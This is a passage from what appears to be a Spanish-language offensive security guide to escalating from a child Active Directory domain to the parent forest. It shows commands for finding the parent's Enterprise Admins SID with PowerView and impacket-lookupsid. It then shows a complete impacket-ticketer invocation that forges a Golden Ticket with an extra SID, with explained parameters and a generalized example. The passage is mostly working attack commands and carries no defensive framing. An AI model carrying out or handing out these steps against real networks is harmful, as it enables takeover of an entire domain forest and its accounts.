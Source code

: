 5. **SID del grupo Enterprise Admins del dominio padre**  
   - **Cómo obtenerlo**:  
     - Usa BloodHound o PowerShell en el dominio padre:  
       ```powershell
       Get-DomainGroup -Domain <DOMINIO_PADRE> -Identity "Enterprise Admins" | select objectsid
       ```  
     - O con `impacket-lookupsid`:  
       ```bash
       impacket-lookupsid <DOMINIO_HIJO>/<USUARIO>@<IP_DC_PADRE> | grep -B12 "Enterprise Admins"
       ```

6. **IP o nombre del controlador de dominio del dominio padre**  
   - Ejemplo: `dc01.poseidon.yzx` o `192.168.1.10`.

## Ejecución del Ataque con `impacket-ticketer`

### Paso 1: Forjar el Golden Ticket

Usa `impacket-ticketer` para crear un ticket Kerberos en el dominio hijo que incluya un **extra SID** del dominio padre:

```bash
impacket-ticketer \
  -aesKey <CLAVE_AES256_KRBTGT> \
  -domain-sid <SID_DOMINIO_HIJO> \
  -domain <FQDN_DOMINIO_HIJO> \
  -user <NOMBRE_USUARIO> \
  -user-id <RID_USUARIO> \
  -groups <LISTA_GRUPOS> \
  -extra-sid <SID_ENTERPRISE_ADMINS> \
  -extra-pac \
  <NOMBRE_TICKET>.ccache
```

#### Parámetros Explicados:
- `-aesKey`: Clave AES256 del `krbtgt` del dominio hijo (alternativamente, usa `-nthash` para el hash NTLM).  
- `-domain-sid`: SID del dominio hijo (ejemplo: `S-1-5-21-4168247447-1722543658-2110108262`).  
- `-domain`: Nombre completo del dominio hijo (ejemplo: `sub.poseidon.yzx`).  
- `-user`: Nombre del usuario objetivo (ejemplo: `Administrator`).  
- `-user-id`: RID del usuario (ejemplo: `500` para Administrator).  
- `-groups`: Lista de RIDs de grupos a los que pertenece el usuario (ejemplo: `512,513,518,519,520` para Domain Admins, Domain Users, Schema Admins, Enterprise Admins, Group Policy Creator Owners).  
- `-extra-sid`: SID del grupo Enterprise Admins del dominio padre (ejemplo: `S-1-5-21-1190331060-1711709193-932631991-519`).  
- `-extra-pac`: Asegura que el PAC incluya el extra SID.  
- `<NOMBRE_TICKET>.ccache`: Nombre del archivo de ticket generado (ejemplo: `administrator.ccache`).

#### Ejemplo Generalizado:
```bash
impacket-ticketer \
  -aesKey <CLAVE_AES256_KRBTGT> \
  -domain-sid S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx \
  -domain <DOMINIO_HIJO> \
  -user Administrator \
  -user-id 500 \
  -groups 512,513,518,519,520 \
  -extra-sid S-1-5-21-yyyyyyyyyy-yyyyyyyyyy-yyyyyyyyyy-519 \
  -extra-pac \
  ticket.ccache
```
